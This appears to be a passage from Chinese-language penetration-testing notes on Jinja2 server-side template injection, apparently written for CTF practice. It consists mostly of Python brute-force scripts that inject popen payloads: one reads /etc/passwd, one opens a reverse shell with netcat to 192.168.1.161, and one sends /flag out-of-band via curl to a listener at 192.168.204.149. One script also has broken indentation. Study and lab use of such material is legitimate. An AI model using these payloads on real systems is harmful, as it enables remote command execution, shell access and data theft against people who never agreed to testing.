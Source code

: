 查询脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"code":'{% if "".__class__.__base__.__subclasses__()['+str(i)+'].__init__.__globals__["popen"]("cat /etc/passwd").read() %}benben{% endif %}'}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if 'benben' in str(response.content):
                print(i)
    except:
        pass

```

# 6.无回显SSTI

## 1.反弹shell

192.168.204.149 监听7777端口

nc -lvp 7777

```python
import requests
url=input('请输入URL:')
for i in range(500):
     try:
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['popen']('netcat 192.168.1.161 7777 -e /bin/bash').read()}}"}
        response = requests.post(url,data=data)
    except:
        pass
```

## 2.带外注入

kali开启python监听

python3 -m http.server 80

```python
import requests
url=input('请输入URL:')
for i in range(500):
    try:
        data={"code":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['popen']('curl http://192.168.204.149/`cat /flag`').read()}}"}
        response = requests.post(url,data=data)
    except:
        pass
```
